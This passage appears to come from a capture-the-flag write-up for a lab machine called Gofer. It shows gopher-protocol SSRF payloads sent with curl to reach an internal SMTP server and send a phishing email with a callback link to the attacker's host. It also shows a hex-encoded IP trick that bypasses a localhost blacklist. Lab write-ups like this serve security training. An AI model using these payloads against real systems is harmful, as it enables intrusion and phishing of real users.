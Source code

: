 What we can do next is to try to use `gopher` protocol to send malicious phishing e-mail to Jocelyn via the SSRF vulnerability! Well, as the heading says, Let's go phishing!

### Gopher SSRF

The Gopher protocol is a simple text-based protocol used for organizing and retrieving information on the internet. It has capabilities of interacting with various services and opened sockets. We can even connect to SMTP and send e-mails!

Let's begin with something simple. As Jocelyn kindly clicks on links in e-mails, let's see if we can get a callback to our web server.

First, we have to create the malicious payload.

```
gopher://127.0.0.1:25/xHELO gofer.htb
MAIL FROM:<hacker@site.com>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Hacker] <hacker@site.com>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: AH AH AH

http://10.10.14.37/hello_from_jocelyn


.
QUIT

```

We have to double URL encode and send this via `curl`.

```
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25/xHELO%2520gofer.htb%250AMAIL%2520FROM:%253Chacker@site.com%253E%250ARCPT%2520TO:%253Cjhudson@gofer.htb%253E%250ADATA%250AFrom:%2520%255BHacker%255D%2520%253Chacker@site.com%253E%250ATo:%2520%253Cjhudson@gofer.htb%253E%250ADate:%2520Tue,%252015%2520Sep%25202017%252017:20:26%2520-0400%250ASubject:%2520AH%2520AH%2520AH%250A%250Ahttp://10.10.14.37/hello_from_jocelyn%250A%250A%250A.%250AQUIT%250d%250a'
```

Uups! The payload did not get through. There is a blacklist on IP addresses like 127.0.0.1 or DNS names like localhost. In order to continue, we have to bypass the blacklist!

This was easier than expected and we could bypass this blacklist with HEX encoding of the 127.0.0.1 IP address.

We can represent the localhost IP address like this: `0x7f000001`

Now, when we send the payload, we can see that we were successful.

```
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM:%3Chacker@site.com%3E%250d%250aRCPT%20TO:%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom:%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo:%20%3Cjhudson@gofer.htb%3E%250d%250aDate:%20Tue,%2015%20Sep%202017%2017:20:26%20-0400%250d%250aSubject:%20AH%20AH%20AH%250d%250a%250d%250ahttp://10.10.14.37/hello_from_jocelyn%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a' 
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2023 16:34:56 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 205
Content-Type: text/html; charset=UTF-8

<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
```